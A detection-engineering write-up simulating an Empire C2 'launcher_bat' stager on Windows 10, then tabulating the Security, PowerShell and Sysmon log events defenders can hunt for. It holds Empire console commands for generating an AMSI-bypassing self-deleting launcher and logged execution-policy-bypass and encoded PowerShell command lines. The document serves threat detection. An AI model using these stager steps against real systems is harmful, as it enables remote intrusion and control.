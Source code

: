 # Empire-Stager-Windows
## Metadata
|                |                    |
| -------------- | ------------------ |
| Author         | Tony Lee @ph20Eoow |
| Createion Date | 2020/12/15         |


## Hypothesis
The adversary  might used empire' launcher_bat stager to execute code in the environment. This attack example can be leveraged by attackers in a physical way, such as rubber ducky. On the other hand, the empire stager offers an option to pack the payload in different ways which makes the other stagers behavior identical, such as multi/launcher, windows/hta, etc

## Simulation Plan
| Environment | Tool Type | Module                      |
| ----------- | --------- | --------------------------- |
| WIN10       | C2        | empire:windows/launcher_bat |

```bash
(Empire) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > info
Name: BAT Launcher
Description:
  Generates a self-deleting .bat launcher for Empire.
Options:
  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to generate stager for.
  Language         True        powershell        Language of the stager to generate.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.
  OutFile          False       /tmp/launcher.bat File to output .bat launcher to,
                                                 otherwise displayed on the screen.
  Delete           False       True              Switch. Delete .bat after running.
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation types.
                                                 For powershell only. 
  ObfuscateCommand False       Token\All\1       The Invoke-Obfuscation command to use.
                                                 Only used if Obfuscate switch is True.
                                                 For powershell only. 
  UserAgent        False       default           User-agent string to use for the staging
                                                 request (default, none, or other).
  Proxy            False       default           Proxy to use for request (default, none,
                                                 or other).
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use for
                                                 request (default, none, or other).
  AMSIBypass       False       True              Include mattifestation's AMSI Bypass in
                                                 the stager code.
  AMSIBypass2      False       False             Include Tal Liberman's AMSI Bypass in
                                                 the stager code.


(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat

(Empire: stager/windows/launcher_bat) > 
[*] Sending POWERSHELL stager (stage 1) to 192.168.254.56
[*] New agent R1SHUP8X checked in
[+] Initial agent R1SHUP8X from 192.168.254.56 now active (Slack)
[*] Sending agent (stage 2) to R1SHUP8X at 192.168.254.56

```

# Explore Dataset
## Adversary Behavior I

| Field                | Value                                                                     |
| -------------------- | ------------------------------------------------------------------------- |
| LogName              | Security                                                                  |
| EventCode            | 4688                                                                      |
| New_Process_ID       | 0x1374                                                                    |
| New_Process_name     | C:\Windows\system32\cmd.exe                                               |
| Process_Command_Line | C:\Windows\system32\cmd.exe /c ""C:\Users\vagrant\Downloads\launcher.bat" |
| TaskCatergory        | Process Creation                                                          |

## Adversary Behavior II
| Field                | Value                                                                                                                                                     |
| -------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LogName              | Security                                                                                                                                                  |
| EventCode            | 4688                                                                                                                                                      |
| Creator_Process_ID   | 0x1374                                                                                                                                                    |
| New_Process_ID       | 0x25f4                                                                                                                                                    |
| New_Process_name     | Creator_Process_ID                                                                                                                                        |
| Process_Command_Line | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nol -nop -ep bypass "[IO.File]::ReadAllText('C:\Users\vagrant\Downloads\launcher.bat')\|iex" |
|                      |
| TaskCatergory        | Process Creation                                                                                                                                          |

## Adversary Behavior III

| Field        | Value                                                                                                                   |
| ------------ | ----------------------------------------------------------------------------------------------------------------------- |
| LogName      | Windows PowerShell                                                                                                      |
| EventCode    | 400                                                                                                                     |
| Message      | *HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc //5112 bytes payload// * |
| TaskCategory | Engine Lifecycle                                                                                                        |

## Adversary Behavior IV

| Field             | Value                                                                                                                                                      |
| ----------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LogName           | Microsoft-Windows-Sysmon/Operational                                                                                                                       |
| EventCode         | 1                                                                                                                                                          |
| TaskCategory      | Process Create                                                                                                                                             |
| RuleName          | technique_id=T1059.001,technique_name=PowerShell                                                                                                           |
| ProcessId         | 3988                                                                                                                                                       |
| CommandLine       | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc //5112 byte payload//                                                      |
| ParentProcessId   | 9716                                                                                                                                                       |
| ParentImage       | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe                                                                                                  |
| ParentCommandLine | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -nol -nop -ep bypass "[IO.File]::ReadAllText('C:\Users\vagrant\Downloads\launcher.bat')\|iex" |
| ProcessGuid       | {bac4bdbc-36f2-5fd8-570d-000000000700}                                                                                                                     |


## Adversary Behavior V
| Field        | Value                                                     |
| ------------ | --------------------------------------------------------- |
| LogName      | Microsoft-Windows-Sysmon/Operational                      |
| EventCode    | 7                                                         |
| ProcessId    | 3988                                                      |
| Image        | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe |
| ImageLoaded  | C:\Windows\System32\wbem\wmiutils.dll                     |
| TaskCategory | Image loaded (rule: ImageLoad)                            |


## Adversary Behavior VI
You can look for Powershell connected to C2
| Field           | Value                                                     |
| --------------- | --------------------------------------------------------- |
| LogName         | Microsoft-Windows-Sysmon/Operational                      |
| EventCode       | 3                                                         |
| ProcessId       | 3988                                                      |
| Image           | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe |
| DestinationIp   | <C2 IP>                                                   |
| DestinationPort | 80                                                        |
| TaskCategory    | Network connection detected (rule: NetworkConnect)        |


## Adversary Behavior VII
Since the C2 connection has established, You can look for Powershell Pipeline Execution Details which invoked "Get-Random" with a few of URL request to pretend normal web traffic
| Field                        | Value                                          |
| ---------------------------- | ---------------------------------------------- |
| LogName                      | Windows PowerShell                             |
| EventCode                    | 800                                            |
| ParameterBinding_Get_Random_ | name="InputObject"; value="/admin/get.php"     |
|                              | name="InputObject"; value="/news.php"          |
|                              | name="InputObject"; value="/login/process.php" |
| TaskCategory                 | Pipeline Execution Details                     |


## Known Bypasses
None

## False Positives
None

